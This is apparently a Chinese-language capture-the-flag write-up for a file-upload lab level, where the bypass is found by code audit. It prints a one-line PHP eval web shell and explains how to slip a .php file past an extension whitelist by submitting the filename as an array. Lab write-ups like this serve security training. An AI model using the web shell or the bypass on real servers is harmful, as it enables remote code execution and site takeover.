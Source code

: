 ## 解题wp(By:独立团孙德胜Alan)
本pass主要考察代码审计能力

## 1.打开第二十关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](/img/2.png)

发现上传失败

## 3.分析代码

![](./img/3.png)

$file_name经过reset($file) . '.' . $file[count($file) - 1];处理。
上传的是数组的话，会跳过$file = explode('.', strtolower($file));

后缀有白名单过滤
$ext = end($file);
$allow_suffix = array('jpg','png','gif');
最终的文件名后缀取的是$file[count($file) - 1]，我们可以通过让$file为数组。$file[0]为smi1e.php/，也就是reset($file)，然后再令$file[2]为白名单中的jpg。

此时end($file)等于jpg，$file[count($file) - 1]为空。而 $file_name = reset($file) . '.' . $file[count($file) - 1];，也就是1.php/.，最终move_uploaded_file会忽略掉/.，最终上传1.php

说明：

empty函数：检查一下变量是否为空；返回值：如果变量是非零非空的值返回False，否则返回True;

三运运算符：(expr1) ? (expr2) : (expr3);  如果条件expr1 成立，执行expr2,否则执行expr3;

end函数：将内部指针指向数组最后一个元素并输出；

reset函数：将内部指针指向数组第一个元素并输出；

## 4.如图所示，两种方式均可

![](/img/4.png)
